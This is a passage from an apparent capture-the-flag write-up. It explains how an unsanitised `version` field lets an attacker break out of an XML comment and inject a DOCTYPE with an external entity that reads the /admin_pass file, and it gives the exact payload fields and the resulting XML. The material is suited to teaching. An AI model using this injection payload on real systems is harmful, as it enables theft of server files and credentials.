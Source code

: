 When sending `version=2.0.0` instead, we get the following XML:

```xml
<!-- API Version: 2.0.0 -->
<root>
    <data>
        <username>MyUsername</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

Aha! The `version` field seems to be injected in the comment at the start of the XML, and is turns out that without any sanitation as well!

So, in order to leak the contents of the `/admin_pass` file, we will send a request with the following fields (should be URL encoded, of course):

```
version = '1.0.0 --><!DOCTYPE username [ <!ELEMENT username ANY> <!ENTITY xxe SYSTEM "file:///admin_pass">]><!--'
username = '&xxe;'
```

This will create the following XML:

```xml
<!-- API Version: 1.0.0 --><!DOCTYPE username [ <!ELEMENT username ANY> <!ENTITY xxe SYSTEM "file:///admin_pass">]><!-- -->
<root>
    <data>
        <username>&xxe;</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

When this XML is parsed in search for `username` (in order to display "Good Luck" under the cookie), the XML parser will read the contents of the `/admin_pass` file, and insert it inside the `username` tags, resulting in the following page:
